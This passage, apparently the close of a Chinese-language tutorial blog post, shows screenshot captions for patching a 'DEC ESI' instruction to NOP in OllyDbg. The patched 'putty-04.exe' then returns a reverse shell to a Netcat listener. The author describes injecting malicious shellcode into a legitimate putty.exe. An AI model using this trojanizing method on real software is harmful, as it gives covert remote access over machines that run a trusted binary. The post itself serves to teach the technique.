

图 47 — [OllyDbg]查找最后一个“DEC ESI”



图 48 — [OllyDbg]将“DEC ESI”更改为“NOP”

现在，让我们在 Netcat 侦听器运行的同时运行我们的“putty-04.exe”。



图 49 —从“putty-04.exe”反转外壳



图 50 — [putty]如此无缝:)

完美！我们通过对 PE 进行武器化，成功地将自己的恶意外壳代码注入到一个合法的“putty.exe”文件中。

# 结论

这是一篇相当长且截图沉重的博文。我希望提供一步一步的指示，以便人们可以复制它，而不用对他们的结束做太多的研究。这个例子对于今天的现代技术可能有一些限制；然而，这将是学习更多关于利用 PE 进行开发的一个很好的基础。希望你喜欢看我的帖子，下次我会带来更多有趣的黑客素材。感谢阅读！

